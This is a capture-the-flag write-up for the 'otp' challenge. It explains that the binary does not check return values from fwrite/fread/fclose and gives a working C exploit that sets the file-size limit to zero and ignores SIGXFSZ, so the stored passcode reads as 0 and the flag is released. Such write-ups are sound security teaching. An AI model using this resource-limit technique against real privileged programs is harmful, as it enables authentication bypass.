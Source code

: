 # OTP

```
I made a skeleton interface for one time password authentication system.
I guess there are no mistakes.
could you take a look at it?

hint : not a race condition. do not bruteforce.
```

## What does the binary do?

```
otp@pwnable:~$ ls
flag  otp  otp.c
otp@pwnable:~$ ./otp
usage : ./otp [passcode]
otp@pwnable:~$ ./otp my_passcode
OTP generated.
OTP mismatch
```

- Receives a passcode as a command line argument
- Generating an OTP
- Comparing it to the given passcode


## Executable Information

```bash
⋊> /m/o/o/d/w/c/p/otp on master ⨯ file otp                                                                                                                                                         09:41:29
otp: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.24, BuildID[sha1]=f851771b439725c55be4ed4b0e102c2a39f4c196, not stripped

⋊> /m/o/o/d/w/c/p/otp on master ⨯ checksec otp                                                                                                                                                     09:41:31
[*] '/ctfs/pwnable/otp/otp'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```


## Inspecting the Code

The code works as follows:
 - Read 2 `unsigned long long` numbers from /dev/urandom.
 - Create a file in the path: `/tmp/<first unsigned long long>`.
 - Write the seconds unsigned long long into it.
 - Close the file.
 - Open the file again (in read mode).
 - Read it contents.
 - Put it in `passcode` variable.
 - Compare it to the passcode provided in the argument.
 - If correct, print the flag.
 - Remove the `/tmp/<unsigned long long>` file.
 - quit.
 


After understanding what the code does, I tried to find a bugs that will provide
me a lead of how the hell can I pwn this challange.

I found out that when the code uses `open()` and `read()`, it checks the return code of it.
**But in the following code, `fwrite`, `fread`, `fclose` are not checked**

Why is it interesting? Imagine that the binary managed to open the /tmp file, and then attempted
to write something to it, and it failed.

When it will attemt reading the next time, its value will be 0. 
so if we provide passcode 0 we win.


### How can we make `write` fail?

We can use the `setrlimit` function. (read `man setrlimit`).
This function enables us to set resource limit on our process. These limits also enforced for all child processes, and even
preserve when calling the `exec` syscall.

By using this function, we can limit the file size that the process creates to ZERO!
which means the `write` will fail.


```C
#include <sys/time.h>
#include <sys/resource.h>
#include <stdlib.h>
#include <signal.h>


int main() {
    // The rlimit struct has 2 fields:
    // - rlim_cur: Current limit, can be set by other processes as well.
    // - rlim_max: Upper bound that the rlim_cur can be set to.
    //
    // We want both of them to be 0 so our process will not be able to write any files.
    struct rlimit file_size_limit;
    file_size_limit.rlim_cur = 0;
    file_size_limit.rlim_max = 0;

    // Set the limit on RLIMIT_FSIZE
    setrlimit(RLIMIT_FSIZE, &file_size_limit);

    // By default, when the limit is reached, SIGXFSZ is sent to the process and it gets
    // killed. We want to ignore this signal for the app to continue even after the failure.
    signal(SIGXFSZ, SIG_IGN);

    // The passcode is 0 since 0 bytes will be written to the file.
    system("/home/otp/otp 0");
}
```





## Pwned

```
otp@pwnable:~$ /tmp/mydirr/payload
OTP generated.
Congratz!
Darn... I always forget to check the return value of fclose() :(
```

